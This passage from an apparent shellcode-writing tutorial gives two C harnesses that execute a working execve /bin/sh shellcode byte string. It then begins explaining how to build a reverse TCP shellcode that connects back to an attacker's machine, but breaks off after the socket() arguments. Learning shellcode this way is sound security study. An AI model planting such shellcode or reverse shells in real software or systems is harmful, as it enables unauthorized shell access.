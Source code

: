```c
// gcc -m32 -z execstack exec_shell.c -o exec_shell
#include <stdio.h>
#include <string.h>

unsigned char shell[] = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";

main() {
  int (*ret)() = (int(*)())shell;
  ret();
}
```

Or this one, which is slightly different :

```c
// gcc -m32 -z execstack exec_shell.c -o exec_shell
char shellcode[] =
	"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";
 
int main(int argc, char **argv) {
	int *ret;
	ret = (int *)&ret + 2;  
	(*ret) = (int)shellcode;
}
```

**Note:** You can find some information about those C code [here](http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/).
{: .notice--info}


# Connect-Back or Reverse TCP Shellcode

We could do a Bind TCP shellcode but, nowadays, firewalls block most of the incoming connection so we prefer that the shellcode automatically connect back to our machine. The main idea to this shellcode is to connect to our machine, on a specific port, and give us a shell. First, we need to create a socket with the *socket()* system call and connect the socket to the address of the server (our machine) using the *connect()* system call.

The socket syscall is called [socketcall()](http://man7.org/linux/man-pages/man2/socketcall.2.html) and use the number **0x66**. It takes 2 arguments :
  - The type of socket, here **SYS_SOCKET** or **1** -> *EBX*
  - The *args*, a pointer to the block containing the actual arguments -> *ECX*

```c
int socketcall(int call, unsigned long *args);
```

There are 3 arguments for a call to [socket()](http://man7.org/linux/man-pages/man2/socket.2.html):
  - The communication domain, here, *AF_INET* (2) or IPv4
  - The socket type, *SOCK_STREAM* (1) or TCP
  - The protocol to use, which is 0 because only a single protocol exists with TCP
